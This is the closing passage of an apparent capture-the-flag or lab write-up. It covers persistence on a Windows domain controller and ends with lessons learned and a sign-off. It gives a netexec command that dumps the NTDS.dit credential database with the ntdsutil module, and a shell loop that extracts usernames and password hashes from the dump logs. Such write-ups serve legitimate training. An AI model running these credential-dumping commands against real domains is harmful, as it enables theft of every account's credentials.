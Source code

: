 
## 4. Persistence: {#4-dot-persistence}


### Dumping NTDS.dit/DC-SYNC attack: {#dumping-ntds-dot-dit-dc-sync-attack}

-   **Perform DC-Sync attack using netexec**:
    -   `netexec smb $box -u $user -p $pass -M ntdsutil`
    -   {{< figure src="/ox-hugo/2024-11-10-205616_.png" >}}

-   **Extract all hashes from netexec**
    -   `for file in /home/kali/.nxc/logs/*.ntds; do cat "$file" | cut -d ':' -f1,2,4 --output-delimiter=' ' | awk '{print $3, $2, $1}'; printf '\n'; done`
    -   {{< figure src="/ox-hugo/2024-11-10-205712_.png" >}}


## Lessons Learned: {#lessons-learned}


### What did I learn? {#what-did-i-learn}

1.  I learned alot about extracting credentials from .pfx files. That was fun.
2.  I learned that even if the box is being finnicky there will be a way to work around it.


### What silly mistakes did I make? {#what-silly-mistakes-did-i-make}

1.  Not terrible this time. Nothing to write home about.


## Sign off: {#sign-off}

Remember, folks as always: with great power comes great pwnage. Use this knowledge wisely, and always stay on the right side of the law!

Until next time, hack the planet!

&#x2013; Bloodstiller

&#x2013; Get in touch bloodstiller at proton dot me


